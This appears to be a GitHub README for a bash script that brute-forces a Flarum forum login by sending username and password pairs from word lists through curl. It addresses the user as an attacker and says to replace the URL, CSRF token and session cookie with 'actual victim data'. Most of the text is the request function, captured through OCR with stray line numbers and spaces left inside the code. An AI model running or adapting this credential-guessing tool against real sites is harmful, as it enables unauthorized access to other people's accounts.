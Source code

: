 # Overview
Brute force using curl for user/passford fields
<img src="https://github.com/Alexandersfg4/pictures/blob/master/Screenshot%202021-02-07%20at%2015.03.01.png" height="600" width="600">
## Getting started
1. Change url/headers/X-CSRF-Token/cookies to actual victim data
```
Request (){
  5 curl -o /dev/null -s -w "%{http_code}\n" -X POST -H "Content-Type: applicat    ion/json" \
  6         -H "Accept: */*" \
  7         -H "Accept-Encoding: gzip, deflate" \
  8         -H "Accept-Language: en-us" \
  9         -H "Origin: http://172.16.4.3:8080" \
 10         -H "User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) App    leWebKit/605.1.15 (KHTML, like Gecko) Version/14.0.3 Safari/605.1.15" \
 11         -H "Connection: keep-alive" \
 12         -H "Referer: http://172.16.4.3:8080/" \
 13         -H "X-CSRF-Token: qheH4dzPl0nSkjPlkIZtm3pIfX4pgjaAxVlWFI15" \      
 14         -H "Cookie: flarum_session=C9J70piUW3WDKAee3sf619I744n9ImW3ecPv3Lai    " \
 15         -d "{\"identification\":\"$user_in_file\",\"password\":\"$password_    in_file\",\"remember\":false}" \
 16         http://172.16.4.3:8080/login
 17 }
```
1. Add data to passwords.txt and usernames.txt files
1. And than run the script ``` ./bruteforce.sh ```
